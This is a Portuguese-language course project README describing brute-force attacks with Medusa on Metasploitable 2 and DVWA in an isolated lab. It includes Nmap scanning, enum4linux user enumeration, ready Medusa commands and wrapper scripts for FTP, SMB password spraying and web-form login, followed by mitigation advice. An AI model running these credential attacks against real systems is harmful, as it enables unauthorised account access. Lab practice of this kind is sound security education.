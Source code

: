 # Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa

## Introdução
Este projeto foi desenvolvido como parte do curso de Segurança da Informação da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, utilizando **Kali Linux**, **Medusa** e **Metasploitable 2**. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

## Configuração do Ambiente

### Ferramentas Utilizadas
- **VirtualBox**: Versão 7.0
- **Kali Linux**: Versão 2025.1
- **Metasploitable 2**: Ambiente vulnerável para testes

### Configuração da Rede
- **Tipo de Rede**: Host-Only (`192.168.56.0/24`)
- **Passos**:
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com o comando:
     ```bash
     ping 192.168.56.101
     ```

## Configuração e Testes

### 1. Criação de Wordlists
Para os testes, criamos wordlists simples manualmente. Em cenários reais, recomenda-se usar wordlists mais robustas disponíveis na internet.

- **Usuários** (`users.txt`):
  ```bash
  echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
  ```
- **Senhas** (`passwords.txt`):
  ```bash
  echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt
  ```
- **Verificação**:
  ```bash
  less users.txt
  less passwords.txt
  ```
- **Observação**: O `\n` é usado para quebra de linha. Essas wordlists serão utilizadas em todos os testes.

### 2. Escaneamento de Portas com Nmap
Antes dos ataques, usamos o **Nmap** para listar portas abertas e versões dos serviços no Metasploitable 2:
```bash
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
```
- **Observação**: O Nmap suporta vários parâmetros, como faixas de portas e IPs, permitindo exploração detalhada.

### 3. Realização dos Ataques

#### Ataque 1: Servidor FTP
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6
  ```
- **Descrição**: Tentativa de força bruta no serviço FTP com 6 threads (`-t 6`) para maior eficiência.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:msfadmin`).
- **Captura de Tela**: `/images/Medusa_FTP.jpg`.
- - **Captura de Tela**: `/images/Acesso_FTP.jpg`.

#### Ataque 2: Servidor SMB
- **Enumeração de Usuários**:
  ```bash
  enum4linux -U 192.168.56.101 > users.txt
  ```
  - Este comando enumera usuários SMB, que podem ser usados para atualizar a wordlist `users.txt`.
- **Ataque com Medusa**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P password.txt -M smbnt -t 6
  ```
- **Descrição**: Password spraying com a senha comum `password` para todos os usuários.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:password`).
- **Captura de Tela**: `/images/SMB_1.jpg`.

#### Ataque 3: DVWA (Formulário Web)
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
  ```
- **Descrição**: Ataque de força bruta no formulário de login do DVWA. O formulário HTML deve ser inspecionado para ajustar os parâmetros (`username`, `password`, botão `Login`).
- **Resultado**: Credenciais válidas (ex.: `admin:password`).
- **Captura de Tela**: `/images/DVWA.jpg`.
- **Captura de Tela**: `/images/DVWA_2.jpg`.
- **Observação**: Consulte o código-fonte do formulário para garantir que os parâmetros estejam corretos.

## Medidas de Mitigação
- **Senhas Fortes**: Use senhas com 12+ caracteres, combinando letras, números e símbolos.
- **Limitação de Tentativas**: Configure bloqueio após 3-5 tentativas falhas (ex.: Fail2Ban).
- **Firewall**: Restrinja portas desnecessárias (ex.: `iptables -A INPUT -p tcp --dport 21 -j DROP`).
- **Protocolos Seguros**: Substitua FTP por SFTP e desative contas SMB padrão.
- **Monitoramento**: Use sistemas de detecção de intrusão (ex.: Snort).
- **Atualizações**: Mantenha sistemas e serviços atualizados.

## Estrutura do Repositório
```
meu-projeto-seguranca/
├── README.md
├── wordlists/
│   ├── users.txt
│   ├── passwords.txt
├── scripts/
│   ├── ftp_bruteforce.sh
│   ├── smb_spray.sh
│   ├── dvwa_bruteforce.sh
├── images/
│   ├── screenshot_ftp_success.png
│   ├── screenshot_smb_enum.png
│   ├── screenshot_dvwa_login.png
```

### Scripts
- `ftp_bruteforce.sh`:
  ```bash
  #!/bin/bash
  medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -t 6
  ```
- `smb_spray.sh`:
  ```bash
  #!/bin/bash
  enum4linux -U 192.168.56.101 > wordlists/users.txt
  medusa -h 192.168.56.101 -U wordlists/users.txt -p password -M smbnt
  ```
- `dvwa_bruteforce.sh`:
  ```bash
  #!/bin/bash
  medusa -h 192.168.56.101 -u admin -P wordlists/passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
  ```

Torne os scripts executáveis:
```bash
chmod +x scripts/*.sh
```

## Como Executar
1. Clone o repositório:
   ```bash
   git clone https://github.com/SEU_USUARIO/meu-projeto-seguranca.git
   ```
2. Configure as VMs (Kali Linux e Metasploitable 2) conforme descrito.
3. Execute os scripts em `/scripts/` ou os comandos listados.

## Lições Aprendidas
- A importância de wordlists bem elaboradas para ataques de força bruta.
- A necessidade de configurar ambientes de teste isolados (rede host-only).
- A relevância de inspecionar formulários HTML para ataques web.
- A importância de práticas de segurança para proteger sistemas reais.
